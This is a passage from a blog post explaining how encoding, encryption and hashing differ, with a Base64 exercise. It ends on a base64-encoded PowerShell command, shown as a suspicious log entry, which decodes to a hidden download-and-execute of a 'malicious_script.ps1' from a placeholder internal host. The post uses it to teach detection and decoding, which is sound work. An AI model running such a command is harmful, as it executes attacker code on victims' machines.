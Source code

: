 ```yaml
---
layout: post
title: Encoding vs. Encryption vs. Hashing
subtitle: The main differences
tags: [1vs1, howto, linux]
---
```


You might have heard about these words, Encoding, Encryption and Hashing, used interchangeably.

Indeed it is a common misconception that these words refer to the same thing, when in reality they refer to their own different techniques and goals.


* **Encoding**: is a reversible transformation of data, used with the goal of *preserving* the **usability** of data.
* **Encryption**: is a secure encoding of data, used with the goal of *protecting* the **confidentiality** of data.
* **Hashing**: is a irreversible transformation of data, used with the goal of *validating* the **integrity** of data.

Let's take a quick look at each one. Also, I created a little exercise for each if you want to have a little fun.



## Encoding

The goal of encoding data is not to secure information, but to transform data so that it can be properly consumed by different system types. This is a completely reversible process.

Computers communicate in binary (0s and 1s) but typically users want to communicate using richer data formats, like text or images. In order to transfer this data between computers, first they need to be converted to binary, sent and then decoded. It would be much simpler if all systems used a single **encoding scheme** but this is not the case. In order for the computer to decode received encoded data, it needs to know which encoding scheme was used to encode.

There are several public encoding schemes, such as text-to-binary (ASCII, UTF-8, etc.) and binary-to-text (Base64, etc.).



### Base64 Example

Binary-to-text schemes are designed to transport data in binary format between channels that only support plain-text content (ASCII). Base64 is widely used in the WWW context to embed images (or videos, or other type of binary data), in textual formats like HTML and CSS files.

Base64 strings are also widely used by attackers targeting Windows systems to hide their goal in a PowerShell command.

Let's see an example of this: in your Windows logs you see a suspicious command being run several times.

```powershell
C:\Windows\System32\cmd.exe /c powershell -windowstyle hidden -exec bypass -encodedcommand YChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLlByb3h5LkNyZWRlbnRpYWxzPVtOZXQuQ3JlZGVudGlhbENhY2hlXTo6RGVmYXVsdE5ldHdvcmtDcmVkZW50aWFscztpd3IoJ2h0dHA6Ly8xMC4xMC4xMC4yL21hbGljaW91c19zY3JpcHQucHMxJyl8aWV4YA==
```
